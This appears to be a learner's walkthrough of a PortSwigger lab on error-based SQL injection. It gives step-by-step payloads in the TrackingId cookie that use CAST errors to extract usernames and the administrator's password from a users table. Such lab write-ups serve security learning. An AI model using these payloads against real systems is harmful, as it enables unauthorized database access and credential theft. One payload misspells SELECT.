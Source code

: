 Hello Hackers , Today i will solve this lab about Error based SQLI in portswigger

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8767b9fb-d2ec-470f-8c1f-957e495b6828)

This is our Website … Hmm Ok let's play with burp suite

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/971e0a4e-7f37-42b2-80bb-dca5e9822fb3)

We discover that parameter TrackingId Is valnerabled So We add ' after value

```
TrackingId=qBRYuM0Pvt1jAt0S';
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6a7c89f8-a681-4d91-9b85-66182da252ec)


OK , Now we got error based 
Lets go using ``` ' AND 1=1--```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/88248994-aef1-4068-bdab-57aa023a8136)

Ok we will replace second value 1 to CAST 
> CAST convert string to int if username or password was int we can discover this data.

We will using :

```' AND 1=CAST((SELCET 1)AS INT)--```

Replace this:

``` ' AND 1=1--```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2bc6f5d0-2102-4827-9cbe-3a1cedeefb18)


We replace ```SELECT 1``` To our query to discover data.

```SELECT username FROM users```

we added in our payload:

```' AND 1=CAST((SELECT username FROM user)AS INT)--```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/4a7a2362-1f88-4a94-93ee-7c9f6c7fa1bb)


Ooops error!!


Hmm Let's try clear value of 


```TrackingId=qBRYuM0Pvt1jAt0S;```

```
TrackingId=' AND 1=CAST((SELECT username FROM users)AS INT)--;
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/407150a6-e66c-45dc-a6d7-1d5efc39ba18)


Now We will add LIMIT 1 in end payload such as :


```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1)AS INT)--;
```
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/d10f9bb7-6d03-48f2-bbeb-afa6a64e7b76)


WOOW we got on username ```administrator```

We will previos payload but must change ***username*** to **password**


```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1)AS INT)--;
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/da7f0652-6905-4d00-b1ad-4ca07ede2621)

Woow we got account of admin ```administrator:r8hyg8bb23cfaaowe98l```




